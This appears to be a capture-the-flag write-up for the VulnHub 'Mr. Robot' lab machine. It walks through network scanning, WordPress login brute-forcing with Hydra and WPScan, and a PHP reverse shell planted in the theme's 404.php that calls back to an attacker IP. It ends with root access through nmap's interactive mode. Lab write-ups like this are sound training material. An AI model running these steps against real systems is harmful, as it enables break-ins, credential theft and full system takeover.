









# 🤖 Mr. Robot: VulnHub — Writeup
```text
███╗   ███╗██████╗     ██████╗  ██████╗ ██████╗  ██████╗ ████████╗
████╗ ████║██╔══██╗    ██╔══██╗██╔═══██╗██╔══██╗██╔═══██╗╚══██╔══╝
██╔████╔██║██████╔╝    ██████╔╝██║   ██║██████╔╝██║   ██║   ██║   
██║╚██╔╝██║██╔══██╗    ██╔══██╗██║   ██║██╔══██╗██║   ██║   ██║   
██║ ╚═╝ ██║██║  ██║    ██║  ██║╚██████╔╝██████╔╝╚██████╔╝   ██║   
╚═╝     ╚═╝╚═╝  ╚═╝    ╚═╝  ╚═╝ ╚═════╝ ╚═════╝  ╚═════╝    ╚═╝   
```


## 📌 Overview

This repository contains a **full step-by-step penetration testing walkthrough** of the **Mr. Robot** vulnerable machine from VulnHub.
The objective is to collect **3 flags** by exploiting misconfigurations, weak credentials, and privilege escalation paths.

> ⚠️ **Educational Use Only** — This machine is intentionally vulnerable and must only be tested in a lab environment.

You can try it yourself: https://www.vulnhub.com/entry/mr-robot-1,151/

---

## 🧠 Lab Setup

| Item           | Value               |
| -------------- | ------------------- |
| Target Machine | Mr. Robot (VulnHub) |
| Attacker       | Kali Linux          |
| Network Mode   | Host-only / NAT     |
| Goal           | Capture all 3 keys  |

---

## 🔍 Phase 1: Network Reconnaissance

### 1️⃣ Identify Local IP & Range

```bash
ifconfig
```

This reveals the attacker's IP and subnet range:

```
192.168.xxx.xxx/24
```

---

### 2️⃣ Discover Live Hosts

```bash
netdiscover -i eth0
```

This scans the local network and identifies connected devices.



---

### 3️⃣ Port Scanning (Nmap)

```bash
nmap -sS -T4 192.168.xxx.xxx
```

Results show an active **HTTP service**, indicating a web-based target.



---

## 🌐 Phase 2: Web Enumeration

### 4️⃣ Manual Web Inspection

Opening the target IP in the browser displays a **Mr. Robot themed website**.



---

### 5️⃣ Vulnerability Scanning with Nikto

```bash
nikto -h 192.168.xxx.xxx
```

Nikto identifies:

* Use of **WordPress**
* Presence of **robots.txt**



---

### 6️⃣ robots.txt Enumeration (🚩 Flag 1)

Navigate to:

```
http://TARGET_IP/robots.txt
```

Contents reveal:



* `fsocity.dic` (dictionary file)
* `key-1-of-3.txt`

Download both:



```bash
wget http://TARGET_IP/fsocity.dic
wget http://TARGET_IP/key-1-of-3.txt
```

View the first flag:

```bash
cat key-1-of-3.txt
```

🚩 **First flag captured**

---

## 📁 Phase 3: Dictionary Preparation

The dictionary contains many duplicates. Clean it using:

```bash
cat fsocity.dic | sort -u > tfsocity
```

This optimized list will be used for brute-forcing.

---

## 🔐 Phase 4: WordPress User Enumeration

### 7️⃣ Access WordPress Login

```
http://TARGET_IP/wp-login.php
```

---

### 8️⃣ Intercept Login with Burp Suite

Steps:

1. Open Burp Suite → Proxy → Intercept ON
2. Set browser proxy:

   * HTTP: `127.0.0.1:8080`
   * SOCKS5: `127.0.0.1:9050`
3. Load wp-login page
4. Enable intercept **after page loads**
5. Submit dummy credentials



Captured parameters:

```
log=USERNAME&pwd=PASSWORD&wp-submit=Log+In
```

---

## 🧨 Phase 5: Username Bruteforce (Hydra)

```bash
hydra -V -L tfsocity -p 123 TARGET_IP http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```

Result:

```
[80][http-post-form] host: TARGET_IP   login: Elliot   password: 123
```

✅ **Valid username found: Elliot**

---

## 🔑 Phase 6: Password Bruteforce (WPScan)

Disable proxy and run:

```bash
wpscan --url http://TARGET_IP \
--usernames Elliot \
--passwords tfsocity
```

WPScan successfully reveals the password.



Login to WordPress Admin.

---

## 🐚 Phase 7: Reverse Shell via WordPress

### 9️⃣ PHP Reverse Shell

* Download PentestMonkey PHP reverse shell
* Update IP & port

```php
$ip = 'ATTACKER_IP';
$port = 1234;
```

---

### 🔁 Inject via Theme Editor

Path:

```
Appearance → Theme Editor → 404.php
```

Replace file content with reverse shell code.

---

### 🔊 Listener

```bash
nc -lvnp 1234
```

Trigger shell:

```bash
curl http://TARGET_IP/404.php
```

✅ Reverse shell obtained.

---

## 🚩 Phase 8: Second Flag

Navigate:

```bash
cd /home/robot
ls
```

Files found:

* `key-2-of-3.txt`
* `password.raw-md5`

Crack hash via CrackStation → obtain password.

Switch user:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
su robot
```

```bash
cat key-2-of-3.txt
```

🚩 **Second flag captured**

---

## ⬆️ Phase 9: Privilege Escalation (Final Flag)

### 🔓 Nmap Interactive Mode

```bash
nmap --interactive
```

Inside prompt:

```bash
!sh
```

Root shell spawned.

---

### 🚩 Flag 3

```bash
cd /root
cat key-3-of-3.txt
```

🚩 **Third and final flag captured**



---

## 🏁 Conclusion

This machine demonstrates:

* Network enumeration
* Web exploitation
* WordPress attacks
* Credential brute-forcing
* Reverse shells
* Privilege escalation

A solid beginner-to-intermediate CTF.

---

## 👤 Author

**Jai Agrawal**
Cybersecurity • Penetration Testing • CTF Player

---

⚠️ *For educational purposes only.*
